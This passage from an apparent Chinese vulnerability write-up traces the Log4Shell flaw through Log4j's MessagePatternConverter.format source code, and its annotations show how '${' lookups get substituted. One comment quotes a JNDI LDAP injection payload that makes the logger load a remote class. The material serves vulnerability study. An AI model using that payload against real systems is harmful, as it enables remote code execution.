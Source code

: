 不难看出每个`formatter`和`converter`为了构造日志的每一部分，这里在构造真正的日志信息字符串部分

![img](../../../../images/post/0116.png)

跟入`MessagePatternConverter.format`方法，看到核心的部分

```java
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    final Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {

        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        final int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 是否以${开头
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    if (msg != null) {
        String result;
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
        } else {
            result = msg.getFormattedMessage();
        }
        if (result != null) {
            toAppendTo.append(config != null && result.contains("${")
                              ? config.getStrSubstitutor().replace(event, result) : result);
        } else {
            toAppendTo.append("null");
        }
    }
}
```
